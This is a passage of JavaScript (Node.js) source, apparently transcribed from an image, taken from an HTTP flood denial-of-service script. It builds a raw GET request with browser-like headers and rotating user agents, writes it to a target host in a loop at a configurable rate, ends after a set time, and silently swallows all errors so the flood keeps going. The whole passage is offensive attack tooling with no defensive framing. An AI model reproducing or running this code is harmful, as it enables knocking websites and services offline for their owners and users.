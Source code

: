     }

    s.on('data', function () {
        setTimeout(function () {
            s.destroy();
            return delete s;
        }, 5000);
    })

    //http-socket
    var pakete = 'GET ' + parsedTarget.host + '/ HTTP/1.1\r\nHost: ' + parsedTarget.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*//*;q=0.8\r\nUser-Agent: ' + userAgents + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\ncache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n'
client.connect(80,parsedTarget.host)
client.setTimeout(10000);
for(let i=0;i<args.Rate;i++){
client.write(pakete)
}

}

const KillScript = () => process.exit(1);

setTimeout(KillScript, args.time * 1000);

process.on('uncaughtException', error => {});
process.on('unhandledRejection', error => {});
